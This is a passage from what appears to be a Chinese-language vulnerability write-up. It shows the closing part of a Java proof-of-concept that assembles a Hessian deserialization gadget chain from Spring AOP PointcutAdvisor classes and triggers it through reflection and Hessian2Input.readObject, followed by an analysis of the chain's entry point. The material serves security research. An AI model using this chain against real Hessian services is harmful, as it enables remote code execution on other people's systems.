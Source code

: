 ```
        map1.put("bB",abstractPointcutAdvisor);
        map2.put("aa",abstractPointcutAdvisor);
        map2.put("bB",defaultPointcutAdvisor);
        HashMap map = new HashMap();
        map.put("a","");
        map.put(map2,"");
        Field field = map.getClass().getDeclaredField("table");
        field.setAccessible(true);
        Object[] table = (Object[]) field.get(map);
        // hashmap的索引会根据key的值而变化，如果要改前面的key的话，这里的索引可以用调试的方式改一下
        Object node = table[1];
        Field keyField;
        try{
            keyField = node.getClass().getDeclaredField("key");
        }catch(Exception e){
            keyField = Class.forName("java.util.MapEntry").getDeclaredField("key");
        }
        keyField.setAccessible(true);
        if (keyField.get(node) instanceof String){
            keyField.set(node, map1);
        }

        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        Hessian2Output hessian2Output = new Hessian2Output(byteArrayOutputStream);
        hessian2Output.getSerializerFactory().setAllowNonSerializable(true);
        hessian2Output.writeObject(map);
        hessian2Output.close();

//        Base64.Encoder encoder = Base64.getEncoder();
//        String base = encoder.encodeToString(byteArrayOutputStream.toByteArray());
//        System.out.println(base);

        ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(byteArrayOutputStream.toByteArray());
        Hessian2Input hessian2Input = new Hessian2Input(byteArrayInputStream);
        hessian2Input.readObject();
    }
}
```

## 漏洞分析

这次入口是org.springframework.aop.support的AbstractPointcutAdvisor类

![image-20230314161601057](images/55.png)

会判断传入的Object的接口，如果说这个类的话就返回true，但是如果没有实现PointcutAdvisor就返回false，所以我们可以找到一个除AbstractPointcutAdvisor类的PointcutAdvisor的子类，然后来到else逻辑了里面调用了this.getAdvice方法，这个类没有这个方法，所以其子类的getAdvice方法

来关注到AbstractBeanFactoryPointcutAdvisor类
